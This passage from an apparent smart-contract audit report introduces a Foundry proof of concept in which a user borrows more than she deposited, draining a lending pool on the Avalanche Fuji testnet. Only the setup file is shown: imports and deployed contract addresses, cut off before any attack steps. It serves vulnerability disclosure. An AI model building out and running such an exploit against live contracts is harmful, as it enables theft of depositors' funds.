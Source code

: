 ## Proof of concept

## Proof of Concept:

* here a poc shows how alice was able to borrow more then it's deposited amount , basically draining pool and steal bobs funds
* We have added a proof of concept, in foundry that forks `avalanche` fugi and interacts with the deployed version of the protocol in testnet. To run the proof of concept please add the following files under tests. Please also make sure foundry is initialized in the project, and declare the custom remapping `@forge-std`

1. First FIle: test/pocs/base\_test.sol

```js
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.19;

    import "@forge-std/Test.sol";
    import "contracts/hub/Hub.sol";
    import "contracts/spoke/SpokeToken.sol";
    import "contracts/spoke/SpokeCommon.sol";
    import "contracts/hub/HubPool.sol";
    import "contracts/hub/LoanManager.sol";
    import "contracts/bridge/libraries/Messages.sol";
    import "contracts/hub/AccountManager.sol";
    import "contracts/bridge/BridgeRouter.sol";
    import "contracts/bridge/HubAdapter.sol";
    import "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

    contract baseTest is Test {
        using SafeERC20 for address;
        // Hub public hub;

        uint256 mainnetFork;
        bytes32 public constant PREFIX = "HUB_ADAPTER_V1";
        address constant HUB_ADDRESS = 0xaE4C62510F4d930a5C8796dbfB8C4Bc7b9B62140; // Assuming this is the Hub address
        address constant SPOKE_COMMON = 0x6628cE08b54e9C8358bE94f716D93AdDcca45b00;
        address constant SPOKE_USDC = 0x89df7db4af48Ec7A84DE09F755ade9AF1940420b;
        address constant HUBPOOL_USDC = 0x1968237f3a7D256D08BcAb212D7ae28fEda72c34;
        address constant HUBPOOL_AVAX = 0xd90B7614551E799Cdef87463143eCe2efd4054f9;
        address constant SPOKE_AVAX = 0xBFf8b4e5f92eDD0A5f72b4b0E23cCa2Cc476ce2a;
        address constant LOAN_MANAGER = 0x2cAa1315bd676FbecABFC3195000c642f503f1C9;
        address constant ACCOUNT_MANAGER = 0x3324B5BF2b5C85999C6DAf2f77b5a29aB74197cc;
        address constant USDC_TOKEN = 0x5425890298aed601595a70AB815c96711a31Bc65;
        address constant ADAPTER = 0xf472ab58969709De9FfEFaeFFd24F9e90cf8DbF9;
        address constant LISTING_ROLE = 0x16870a6A85cD152229B97d018194d66740f932d6;
        uint16 constant STABELE_LOAN_TYPE_ID = 1;
        uint16 constant VARIABLE_LOAN_TYPE_ID = 2;
        uint16 constant CHAIN_ID = 1; // Assuming Ethereum mainnet

        Hub hub;
        SpokeCommon spokeCommon;
        AccountManager accountManager;
        SpokeToken spokeUsdc;
        SpokeToken spokeAvax;
        HubPool hubPoolUsdc;
        HubPool hubPoolAvax;
        LoanManager loanManager;
        HubAdapter adapter;
        Messages.MessageParams DUMMY_MESSAGE_PARAMS = Messages.MessageParams({adapterId: 1, returnAdapterId: 1, receiverValue: 0, gasLimit: 0, returnGasLimit: 0});
        ///// users account ids :
```